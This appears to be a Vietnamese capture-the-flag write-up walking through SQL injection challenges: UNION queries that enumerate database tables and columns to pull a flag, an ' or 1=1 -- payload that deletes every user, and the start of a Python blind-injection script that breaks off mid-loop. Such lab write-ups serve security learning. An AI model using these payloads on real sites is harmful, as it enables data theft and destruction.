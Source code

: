 Dò tên bảng:

```sql
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'sql_level2'
```

Dò tên cột:

```sql
1 UNION SELECT NULL, column_name from information_schema.columns where table_schema='sql_level2' and table_name='flags'
```

(Có hint tên bảng là: flags và tên cột là **flag** 😉😉)

Dùng payload: `1 UNION SELECT flag, flag from flags` sẽ lấy được flag.

![Alt text](/img/vsl-internal-2023/image43.png)

`FLAG: VKU{FLAG_SQL_I_LEVEL_2_YOU 4RA G006}`

### SQL Injection Level 3


Ở thử thách này, trên trang web có 2 tính năng có thể dính SQL Injection là ADD và DELETE
![Alt text](/img/vsl-internal-2023/image44.png)

Khi kiểm tra thì chỉ có tính năng DELETE sẽ dính lỗi SQLi.
Dùng payload `' or 1=1 -- ` để kiểm tra. Nhập giá trị này vào **username** cần xóa.
Sau khi Remove User bằng **Username** trên thì toàn bộ user đều bị xóa.
![Alt text](/img/vsl-internal-2023/image45.png)
Từ đây, có thể tận dụng lỗ hổng này để tìm ra tên các bảng và các cột có trong Cơ sở dữ liệu.

Đây chúng ta phải sử dụng một phương pháp tấn công gọi là lỗ hổng SQL Injection Blind.

Mình đã viết một payload để giải bài này.
(Bạn cũng có thể tìm thấy payload này được public trên github thông qua gợi ý trên file **github.html**)

Xem và tải nó ở đây: [payload.py](./payload.py)

```python
import requests
import json
import base64
import sys

in_url = input("ENTER IP AND PORT FOR WEBSITE EXAMPLE: 123.124.533.345:9898 \n")
url = f"http://{in_url}/"
post_delete = "admin.php"
url_result = "users.html"
list_wordlist=list("abcdefghijklmnopqrstuvwxyz0123456789,ABCDEFGHIJKLMNOPQRSTUVWXYZ_!@#$%^&*{}();")
encoded_data_get = {
    "data":"eyJyZXF1ZXN0TWV0aG9kIjoiZ2V0QWxsVXNlcnMifQ=="
}
encode_data_add ={
    "data":"eyJ1c2VybmFtZV9hZGRfc3FsIjoiaGFja2luZyIsInBhc3N3b3JkX2FkZF9zcWwiOiJoYWNraW5nIiwicmVxdWVzdE1ldGhvZCI6ImFkZFVzZXIifQ=="
}

json_data_get = json.dumps(encoded_data_get);
json_data_add = json.dumps(encode_data_add);

#GET LENGHT FOR STRING TABLE
length_table=0
while True:
    payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT(TABLE_NAME)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = database()) = {length_table} ; ##"
    encoded_data = base64.b64encode(dataClear.encode()).decode()
```